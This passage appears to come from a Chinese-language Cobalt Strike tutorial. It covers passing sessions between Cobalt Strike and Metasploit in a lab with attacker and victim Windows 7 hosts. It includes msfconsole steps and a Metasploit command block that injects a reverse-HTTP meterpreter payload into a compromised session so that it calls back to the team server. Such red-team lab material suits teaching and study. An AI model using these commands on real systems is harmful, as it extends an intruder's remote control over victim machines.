 

### 操作步骤

进入kali2输入命令:`msfconsole`, 运行metasploit

![image-20221005234248726](CobaltStrike的使用教程/image-20221005234248726.png)	



metasploit新建监听用于接收CS派生过来的会话	

![image-20221006153754571](CobaltStrike的使用教程/image-20221006153754571.png)

​	

返回至CS服务器建立外部监听, payload选择Foreign HTTP, 其余内容与metasploit建立的监听一致

![image-20221006153852260](CobaltStrike的使用教程/image-20221006153852260.png)	



派生会话选择上述建立的外部监听t, 然后返回Metasploit查看上线情况

![动画](CobaltStrike的使用教程/动画-16650422470191.gif)

​	

## metasploit派生会话至CS

将metasploit管理的会话派生至CS服务器



### 准备环境

| 主机                     | 描述            |
| ------------------------ | --------------- |
| Kali(192.168.47.134)     | CS TeamServer1  |
| Kali2(192.168.47.144)    | metasploit      |
| Windows7(192.168.47.133) | CS客户端,攻击机 |
| Windows7(192.168.47.141) | 受害机          |



### 操作步骤

首先查看MSF中需派生会话的ID, 输入命令: `sessions`, 此处要派生的会话ID为6 (下面的截图截错了)

![image-20221006163339205](CobaltStrike的使用教程/image-20221006163339205.png)



输入如下命令进行派生会话, 派生完成后返回会话的进程PID为3322

```
use exploit/windows/local/payload_inject  

set payload windows/meterpreter/reverse_http

set lhost 192.168.47.134

set lport 80

set disablepayloadhandler True  //默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true

set session 6

```